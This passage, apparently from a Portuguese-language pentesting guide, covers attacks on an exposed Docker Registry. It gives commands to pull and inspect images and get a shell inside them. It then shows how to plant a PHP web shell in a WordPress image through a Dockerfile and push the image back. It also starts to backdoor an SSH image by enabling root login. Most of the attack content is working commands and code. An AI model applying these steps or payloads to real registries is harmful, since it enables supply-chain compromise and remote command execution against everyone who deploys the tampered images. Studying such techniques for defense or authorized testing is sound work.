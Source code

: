 ### Enumeração usando docker
```bash
#Once you know which images the server is saving (/v2/_catalog) you can pull them
docker pull 10.10.10.10:5000/ubuntu

#Check the commands used to create the layers of the image
docker history 10.10.10.10:5000/ubuntu
#IMAGE               CREATED             CREATED BY                                      SIZE                COMMENT
#ed05bef01522        2 years ago         ./run.sh                                        46.8MB
#<missing>           2 years ago         /bin/sh -c #(nop)  CMD ["./run.sh"]             0B
#<missing>           2 years ago         /bin/sh -c #(nop)  EXPOSE 80                    0B
#<missing>           2 years ago         /bin/sh -c cp $base/mysql-setup.sh /            499B
#<missing>           2 years ago         /bin/sh -c #(nop) COPY dir:0b657699b1833fd59…   16.2MB

#Run and get a shell
docker run -it 10.10.10.10:5000/ubuntu bash #Leave this shell running
docker ps #Using a different shell
docker exec -it 7d3a81fe42d7 bash #Get ash shell inside docker container
```
### Backdooring WordPress image

No cenário em que você encontrou um Docker Registry salvando uma imagem do wordpress, você pode inserir um backdoor.\
**Crie** o **backdoor**:

{% code title="shell.php" %}
```bash
<?php echo shell_exec($_GET["cmd"]); ?>
```
{% endcode %}

Crie um **Dockerfile**:

{% code title="Dockerfile" %}
```bash
FROM 10.10.10.10:5000/wordpress
COPY shell.php /app/
RUN chmod 777 /app/shell.php
```
{% endcode %}

**Crie** a nova imagem, **verifique** se foi criada e **envie**-a:
```bash
docker build -t 10.10.10.10:5000/wordpress .
#Create
docker images
docker push registry:5000/wordpress #Push it
```
### Backdooring SSH server image

Suponha que você encontrou um Docker Registry com uma imagem SSH e deseja backdoorá-la.\
**Baixe** a imagem e **execute**-a:
```bash
docker pull 10.10.10.10:5000/sshd-docker-cli
docker run -d 10.10.10.10:5000/sshd-docker-cli
```
Extrair o arquivo `sshd_config` da imagem SSH:
```bash
docker cp 4c989242c714:/etc/ssh/sshd_config .
```
E modifique-o para definir: `PermitRootLogin yes`
